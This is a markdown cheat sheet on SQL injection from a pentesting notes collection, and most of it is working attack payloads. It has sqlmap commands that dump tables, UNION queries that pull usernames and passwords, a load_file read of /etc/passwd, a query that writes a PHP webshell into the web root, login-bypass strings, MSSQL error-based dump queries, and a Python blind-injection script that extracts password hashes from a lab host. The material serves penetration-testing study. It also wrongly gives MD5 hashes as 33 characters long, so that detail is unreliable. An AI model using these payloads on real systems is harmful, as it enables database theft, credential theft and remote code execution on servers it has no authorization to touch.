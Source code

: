 ```yaml
---
description: >-
  SQLi is a common web application vulnerability that is caused by unsanitized
  user input being inserted into SQL queries.
---
```


# SQL Injection

## Automatization with sqlmap

```text
# Post
sqlmap -r request.txt -p username

# Get
sqlmap -u "http://example.com/index.php?id=1" -p id

# Crawl
sqlmap -u http://example.com --dbms=mysql --crawl=3
```

{% hint style="info" %}
**Note:** `request.txt` is a request saved in BurpSuite.
{% endhint %}

### Dumping a Table

```text
sqlmap -r request.txt -p username -D database_name -T table_name --dump
```

## Union Attack

 When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the `UNION` keyword can be used to retrieve data from other tables within the database.

MySQL syntax for the example:

```text
$sql = "SELECT id, name, text FROM example WHERE id=" . $_GET['id'];
```

### Column Number Enumeration

After detect that the application is vulnerable to SQLi we need to know how many columns are queried. To do that task we are going to use order by to guess the number of columns retrieved. The idea is to increment the number until get an error.

```text
/index.php?id=1 order by 1
/index.php?id=1 order by 2
/index.php?id=1 order by 3
/index.php?id=1 order by 4 - ERROR
```

### Output Layout

Now that we know how many columns are in the table, we can use this information to retrieve information. But we need to before understand where this information will be displayed, so we are going to set parameteres to that fields.

```text
/index.php?id=1 union all select 1, 2, 3
```

### Extracting Data from Database

Now knowing that the third column is for descriptions, we can put there all information.

```text
/index.php?id=1 union all select 1, 2, @@version
/index.php?id=1 union all select 1, 2, user()
/index.php?id=1 union all select 1, 2, table_name from information_schema.tables
/index.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
/index.php?id=1 union all select 1, username, passwords from users
```

### Read files

Some databases allows us to read or write files in the filesystem.

```text
/index.php?id=1 union all select 1, 2, load_file('/etc/passwd')
```

### From SQLi to RCE

Since we are allowed to upload files, we can upload a webshell to the web root.

```text
/index.php?id=1 union all select 1, 2, "<?php system($_GET['cmd']);?>" into OUTFILE '/var/www/html/backdoor.php'
```

In case of exploiting a **Microsoft SQL Server** check this:

{% page-ref page="../services/1433-microsoft-sql-server.md" %}

## Login Bypass

The most classic ones:

```text
' or '1'='1
' or 1=1-- -
' or 1=1# 
```

Then others:

```text
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```

### Knowing the username

When we are aware of some username we can impersonate him with SQLi by introducing the username and commenting the rest of the SQL Query.

```text
administrator'-- -
administrator'# 
```

## Error Based SQLi

Use CONVERT or CAST to force an ERROR and see the output of the query on errors logs.

_Example of Microsoft SQL Server:_

```text
1', CONVERT(int,SELECT ...... FROM ....)

a',convert(int,(SELECT CURRENT_USER)))--
a',convert(int,(SELECT DB_NAME(0))))--
a',convert(int,(SELECT DB_NAME(1))))--

# SELECT FIRST TABLE
a',convert(int,(SELECT TOP 1 name from DATABASE..sysobjects where xtype='U')))--

# SELECT A N TABLE (OFFSET)
a',convert(int,(SELECT name from DATABASE..sysobjects where xtype='U' ORDER BY name OFFSET 1 ROWS FETCH NEXT 1 ROWS ONLY )))--

# SELECT A N COLUMN NAME(OFFSET) of TABLE
a',convert(int,(SELECT name from DATABASE..syscolumns WHERE id = (SELECT id FROM DATABASE..sysobjects WHERE name = 'TABLE') ORDER BY name OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY)))--

# DUMP - repeat it modifyng the OFFSET to retrieve all table entries
a',convert(int,(SELECT username FROM DATABASE..TABLE ORDER BY username OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY)))--
a',convert(int,(SELECT password FROM DATABASE..TABLE ORDER BY password OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY)))--

```

## Blind SQLi

A SQLi is blind because we don't have access to the error log or any type of output which difficult a lot the process of exploitation.

### Time Based

Since we are not aware about any type of error or output we can use sleeps.

```text
1-sleep(4)
```

If it loads for four seconds extra we know that the database is processing our `sleep()` command.

### Dump tables

It can also be done with sqlmap or manually with a custom script. In that case the script is dumping MD5 hashes from password field.

```text
import requests
chars = "0123456789abcdef"
def GetSQL(i,c):
    return "admin' and substr(password,%s,1) = '%s' -- -" % (i,c)
for i in range(1,33):
    for c in chars:
        injection = GetSQL(i,c)
        payload = {'username':injection,'password':"randompassword"}
        r = requests.post('http://10.10.10.73/login.php',data=payload)
        if 'Wrong identification' in r.text:
            print(c,end='',flush=True)
            break
print()
```

{% hint style="info" %}
**Note:** MD5 hash are hexadecimal with 33 character length.
{% endhint %}

{% embed url="https://github.com/codingo/OSCP-2/blob/master/Documents/SQL%20Injection%20Cheatsheet.md" %}

## References

* [https://portswigger.net/web-security/sql-injection/union-attacks](https://portswigger.net/web-security/sql-injection/union-attacks)
* [https://sushant747.gitbooks.io/total-oscp-guide/content/sql-injections.html](https://sushant747.gitbooks.io/total-oscp-guide/content/sql-injections.html)

